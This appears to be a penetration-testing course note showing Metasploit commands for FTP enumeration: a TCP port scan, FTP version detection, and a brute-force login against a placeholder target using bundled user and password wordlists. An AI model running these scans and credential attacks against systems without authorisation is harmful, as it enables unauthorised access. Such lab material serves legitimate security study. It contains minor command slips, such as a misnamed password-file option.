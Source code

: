 ## Demo: FTP Enumeration

`service postgresql start`

`ifconfig`

`msfconsole`

msf6:`workspace -a FTP_Enum`

We use a auxiliary module to check the version of FTP. First we check the open ports using a portscan module:

msf6:`use auxiliary/scanner/portscan/tcp`

msf6:`show options`

msf6:`set rhosts [targetIP]`

msf6:`run`

We can't see the service version, so how mentioned earlier:

`back`

msf6:`search ftp`

msf6:`search type:auxiliary name:ftp`

msf6:`use auxiliary/scanner/ftp/ftp_version`

msf6:`show options`

msf6:`set rhosts [targetIP]`

msf6:`run`

We get the service version and the banner.

we could search for example for an proftpd exploit.

### FTP Brute Force auxiliary module

msf6:`search type:auxiliary name:ftp`

msf6:`use auxiliary/scanner/ftp/ftp_login`

msf6:`set rhosts [target IP]`

msf6:`show options`

The options show us, that we need to provide RHOST, USER_FILE/USERNAME, PASS_FILE. Because we don't have a password nor a username, we provide a user_file and a password_file. We use metasploit files

msf6:`set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`

msf6:`set PASSWORD_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

Start Brute-Force:

msf6:`run`

msf6:`ftp [targetIP]`
